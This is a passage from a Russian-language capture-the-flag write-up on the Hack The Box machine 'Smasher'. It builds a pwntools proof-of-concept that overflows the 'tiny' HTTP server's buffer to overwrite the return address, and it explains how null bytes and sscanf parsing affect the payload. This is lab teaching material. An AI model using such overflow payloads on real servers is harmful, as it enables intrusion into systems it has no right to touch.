 ```
root@kali:~# ps aux | grep tiny | awk '{print $2}' | xargs kill -9
```

### Proof-of-Concept

Давай проверим, что мы и правда можем перезаписать адрес возврата произвольным значением. Для этого напишем простой скрипт на Python, который откроет удаленный (в нашем случае локальный) сокет и отправит туда строку вида `GET /<ПЕЙЛОАД>`.

Несмотря на то, что разработка еще не перенесена в stable-ветку, я все же решился на эксперимент с pwntools для третьей версии Python.

Устанавливается он так.

```
$ apt install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential -y
$ python3 -m pip install --upgrade git+https://github.com/Gallopsled/pwntools.git@dev3
```

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Использование: python3 poc.py [DEBUG]

from pwn import *

context.arch      = 'amd64'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 64

payload = b''
payload += b'A' * 568
payload += p64(0xd34dc0d3)

r = remote('localhost', 1111)
r.sendline(f'GET /{payload}')
r.sendline()
```

С работающим на фоне сервером в дебаггере запустим скрипт и убедимся, что процесс упал с «мертвым кодом» в регистре RIP.

[![poc-py-fail.png](/assets/images/pwn-kingdom/smasher/poc-py-fail.png)](/assets/images/pwn-kingdom/smasher/poc-py-fail.png)
{:.center-image}

С первого раза не сработало… Что пошло не так? Значение `0xd34dc0d3` упаковано в формат little-endian для x86-64, поэтому на самом деле оно выглядит как `0x00000000d34dc0d3`. При чтении первого нулевого байта сервер упал. Почему? Потому что он юзает функцию `sscanf` ([строка 278](https://github.com/snovvcrash/xakepru/blob/master/pwn-kingdom/4-htb-smasher/tiny/tiny.c#L278)) для парсинга запроса — а она записывает нашу полезную нагрузку в массив `uri`, пока не споткнется о нулевой терминатор.

Чтобы избежать этого, перед отправкой конвертируем весь пейлоад в Percent-encoding с помощью `urllib.parse.quote`.


[//]: # (2019-11-20)